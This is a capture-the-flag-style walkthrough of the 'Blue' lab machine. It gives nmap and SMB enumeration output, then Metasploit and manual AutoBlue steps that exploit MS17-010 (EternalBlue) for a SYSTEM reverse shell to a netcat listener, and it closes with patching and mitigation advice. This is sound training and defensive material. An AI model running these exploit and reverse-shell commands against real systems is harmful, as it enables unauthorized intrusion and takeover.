

## Machine Information

- **Machine Name:** Blue
- **Machine IP:** 10.10.10.40
- **Machine Type:** Easy
- **Machine OS:** Windows

---

## Reconnaissance - Information gathering

Information gathering is a very crucial step regardless of what hat you are wearing, it is the building block of hacking. Before exploiting any system, you must have enough information to exploit it, or else it is a failure. Focus on Reconnaissance and enumeration as much as possible, because if you miss a single information which might be the key to enter the system then you will never make it.

> *"In a battle of keyboards, information is the key for destroying your enemy."*

### Ports and Services scan

Imagine you are a robber (don't be hesitant, we all are robbers), and you are giving a task to rob a diamond that is kept securely inside a Royal Palace. The only thing you have with yourself is the *address* of the Royal Palace, what will be your next move? Definitely to throw a visit at the Palace and see how many *OPEN doors or windows* it has so that you are easily get in. Similarly, when it comes to computers, they have *OPEN ports and services* which might become a way in for a hacker.

**Command:**
- `sudo nmap -sVC -p- -O 10.10.10.40 | tee nmapBlue.txt`

**Output:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 19:54 EDT
Nmap scan report for 10.10.10.40
Host is up (0.021s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/13%OT=135%CT=1%CU=35152%PV=Y%DS=2%DC=I%G=Y%TM=67F
OS:C4F36%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S
OS:%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O
OS:5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6
OS:=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=
OS:%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%
OS:W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%
OS:DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-04-13T23:56:34
|_  start_date: 2025-04-13T23:50:41
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-04-14T00:56:31+01:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.11 seconds
```


We see a lot of open ports and by going through the services we can definitely say that it is a Windows Machine (It will be lame if a Linux machine will be running Microsoft RPC). We also get more information about the OS, through port 445 which is `smb` and it is a Windows 7 Professional, which is quite old as per 2025. If we look at OS detection of nmap then it didn't gave us a solid information, this is because it depends on many factors but SMB will give you the right OS version. In the service info, we see the hostname as `HARIS-PC`.

### SMB Enumeration

We saw that we did found OS information through SMB, which means that SMB is responding back to us, and if it is Windows 7 Professional then it might be using a vulnerable SMB Version (Umm... my first thought is EternalBlue?). Initially, I tried looking for shares, users, and other things in SMB but it wasn't allowing anonymous login so we failed, but we do have another way.

**Commands:**
- `enum4linux -a 10.10.10.40`
- `rpcclient -U "" -N 10.10.10.40`
- `sudo nmap -sU -p137 10.10.10.40`
- `sudo nmap -sU -p137 --script nbstat.nse 10.10.10.40`
- `sudo nmap -p445 --script smb-enum-shares.nse 10.10.10.40`


Looking for shares using `nmap` did gave us something and the two shares which look odd are Share and Users, because they are uncommon and probably someone established them to share something, so we might get some information on them.

---

## Initial Foothold - exploit me!

Initial Footholds are the initial access to the target system by exploiting your way in, and in most of the cases you will receive only the "low-privileged" users initially and then you will have to perform privilege escalation to be the root or admin. We will see how to exploit services we got in our findings and get our way in.

### Scanning for possible vulnerabilities

Before exploiting anything, you must know what you are exploiting, so in this scenario we will be targeting "SMB", because it looked vulnerable and maybe we receive some access through it. I did a lot of exploitation (out-of-the-syllabus) but they all failed, so I decided to directly go with what I know, "THE ETERNALBLUE".

**Command:**
- `sudo nmap -p445 --script smb-vuln* 10.10.10.40 | tee nmapBlueSMBVuln.txt`


Finally, we have something to exploit. Here, I used `nmap` tool with `script` option to look if the target is vulnerable to some of the known SMBv1 exploits, and it is vulnerable to `ms17-010` which is famously known as `EternalBlue` (if you are a boy hacker) or `EternalRomance` (if you are a girl hacker). 

### Automatic Exploitation - for script kiddies

There are two ways to exploit this, one is by using our all-time favorite `metasploit-framework` which will automatically exploit this by using its pre-installed script. Another one is finding an exploit online and launching it. We will first go through `metasploit-framework` and then the other way.

**Commands:**
- `searchsploit ms17-010`
- `msfconsole`
- `search ms17-010`
- `use 0`
- `show options`
- `set RHOSTS 10.10.10.40`
- `set LHOST 10.10.14.12`
- `exploit`


We were able to find a metasploit exploit for this vulnerability, and we will use that to exploit it (there are a lot of metasploit exploits for this vulnerability, make sure you check the OS requirement for them before running it). 


We were able to get both the flags in our initial foothold only, no need for privilege escalation. This is because the exploit itself lands you on a privileged user, and this is the reason why `EternalBlue` is so scary.

### Manual Exploitation - for the hackers

We will now try another exploit that is our of metasploit, this is useful when you do not have access to metasploit framework (OSCP Aspirants), and it uses a well-known exploit from github. Do keep in mind that there are many exploits on Github, so you are free to test them. This vulnerability is not limited to the exploit I used.

**Commands:**
- `git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git`
- `cd AutoBlue-MS17-010`
- `pip install -r requirements.txt`


We clone AutoBlue exploit from Github, and installed the requirements for the tool. It uses two scripts, one is python based which checks if the OS is vulnerable or not, and another is a bash script that exploits the given IP.


**Commands:**
- `python3 eternal_checker.py 10.10.10.40`
- `./shell_prep.sh`
- `nc -lnvp 1234`
- `./eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin`

Initially, I execute the `eternal_checker.py` to see if the target is patched or not, and after that we will make a malicious binary file that will give reverse connection to our listener. This tool has a `shell_prep` bash script that creates a binary file with the preferred options.


We can see that our `shell_prep` bash script created a binary with the name `sc_x64.bin`, and now we will use `eternal_exploit7.py` to exploit the target system with that binary. This python exploit will transfer this binary file through SMB, and exploit it using eternal blue to give us a reverse connection on our listener.



---

## Conclusion - the end!

In this section, I will be going through lesson learned, vulnerabilities exploited and how we can fix them in real-world. I will also make a list of tools that primarily helped me to exploit this machine and my final thoughts.

### Lessons Learned

The *Blue machine* demonstrated the critical importance of timely patching and network hygiene. By exploiting a well-known vulnerability - **ms17-010** - we were able to gain unauthorized remote access with **SYSTEM-level privileges**. This exercise highlighted how dangerous it can be for organizations to leave known vulnerabilities unaddressed.

Key takeaways include:
- Legacy systems and unpatched software pose significant risks.
- A single vulnerability can lead to complete system compromise.
- Awareness and mitigation of known exploits are essential in modern cybersecurity practices.

### Vulnerabilities Exploited

- **MS17-010 (EternalBlue):** This vulnerability exists in the Server Message Block (SMB) protocol version 1 on Windows systems. It allows for **remote code execution** by sending specially crafted packets to the target system.
	- **CVE-ID:** CVE-2017-0144
	- **Severity:** Critical
	- **Exploit type:** RCE
	- **Impact:** Allows attackers to execute arbitrary code with system privileges
- This exploit was made infamous by the **WannaCry ransomware attack** and is publicly available, making unpatched systems easy target.

### Fixes & Mitigation
- **Apply Security Updates:** Microsoft released a patch for MS17-010 in March 2017. Ensure all systems are up-to-date with the latest security patches.
- **Disable SMBv1:** SMBv1 is outdated and vulnerable. It should be disabled unless absolutely necessary.
- **Network Segmentation:** Critical systems should be isolated to limit lateral movement in case of compromise.
- **Firewall Configuration:** Block SMB (ports 445, 139) from untrusted networks.
- **Intrusion Detection Systems (IDS):** Deploy IDS to detect exploitation attempts targeting known vulnerabilities like EternalBlue.

### Final Thoughts
*Blue* serves as a textbook example of how powerful known exploits can be if systems remain unpatched. Despite being a beginner-friendly machine, it underscores real-world threats and reinforces the value of strong cyber hygiene practices. If you are interested in cybersecurity and want to join a community of like-minded people then do join the following socials where I build a cybersecurity community:

1. [Discord](https://discord.gg/wyfwSxn3YB)


